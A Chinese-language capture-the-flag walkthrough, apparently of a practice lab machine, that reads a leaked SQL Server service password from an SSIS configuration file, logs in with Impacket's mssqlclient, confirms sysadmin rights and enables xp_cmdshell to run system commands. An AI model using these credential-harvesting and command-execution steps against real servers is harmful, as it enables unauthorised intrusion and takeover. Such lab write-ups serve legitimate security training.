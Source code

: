 查看`prod.dtsConfig`

```sh
┌──(root💀kali)-[/]
└─# cat prod.dtsConfig
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration> 
```

从中发现用户名`ARCHETYPE\sql_svc`和密码`M3g4c0rp123`

## 数据库

利用[工具脚本](https://github.com/SecureAuthCorp/impacket)尝试使用发现的用户名密码登录到mssql，并调用`IS_SRVROLEMEMBER`函数获取当前用户是否为sysadmin权限

```sh
┌──(root💀kali)-[/]
└─# mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
Impacket v0.9.23.dev1+20210302.130123.df00d15c - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> SELECT IS_SRVROLEMEMBER('sysadmin');
              

-----------   

          1 
```

发现用户确实拥有最高权限，下一步配置开启`xp_cmdshell`并远程执行命令

```mssql
EXEC sp_configure "Show Advanced options", 1;
reconfigure;
sp_configure;
EXEC sp_configure "xp_cmdshell", 1;
reconfigure;
xp_cmdshell "whoami"
```
